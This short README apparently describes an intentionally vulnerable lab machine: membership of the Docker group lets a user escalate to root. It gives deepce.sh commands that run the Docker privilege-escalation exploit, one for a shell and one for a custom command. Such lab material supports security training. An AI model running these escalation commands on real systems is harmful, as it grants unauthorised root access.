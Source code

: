 # Setup
The ubuntu user is in the Docker group, this can be used to escalate privileges to root.

# Exploit
You can use deepce.sh to get priv esc using one of the following commands:

- Shell
```
./deepce.sh --no-enumeration -exploit DOCKER
```
- Custom command
```
./deepce.sh --no-enumeration -exploit DOCKER --command "whoami>/tmp/hacked"
```

